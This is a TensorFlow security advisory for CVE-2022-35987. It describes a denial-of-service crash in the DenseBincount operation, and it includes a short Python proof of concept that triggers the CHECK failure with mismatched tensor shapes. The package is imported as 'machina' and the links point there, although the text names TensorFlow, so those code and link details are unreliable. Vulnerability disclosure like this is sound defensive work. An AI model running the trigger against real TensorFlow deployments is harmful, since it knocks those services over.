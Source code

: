 ## TFSA-2022-118: `CHECK` fail in `DenseBincount`

### CVE Number
CVE-2022-35987

### Impact
`DenseBincount` assumes its input tensor `weights` to either have the same shape as its input tensor `input` or to be length-0. A different `weights` shape will trigger a `CHECK` fail that can be used to trigger a denial of service attack.
```python
import machina as tf
binary_output = True
input = tf.random.uniform(shape=[0, 0], minval=-10000, maxval=10000, dtype=tf.int32, seed=-2460)
size = tf.random.uniform(shape=[], minval=-10000, maxval=10000, dtype=tf.int32, seed=-10000)
weights = tf.random.uniform(shape=[], minval=-10000, maxval=10000, dtype=tf.float32, seed=-10000)
tf.raw_ops.DenseBincount(input=input, size=size, weights=weights, binary_output=binary_output)
```

### Patches
We have patched the issue in GitHub commit [bf4c14353c2328636a18bfad1e151052c81d5f43](https://github.com/machina/machina/commit/bf4c14353c2328636a18bfad1e151052c81d5f43).

The fix will be included in TensorFlow 2.10.0. We will also cherrypick this commit on TensorFlow 2.9.1, TensorFlow 2.8.1, and TensorFlow 2.7.2, as these are also affected and still in supported range.


### For more information
Please consult [our security guide](https://github.com/machina/machina/blob/master/SECURITY.md) for more information regarding the security model and how to contact us with issues and questions.


### Attribution
This vulnerability has been reported by Di Jin, Secure Systems Labs, Brown University
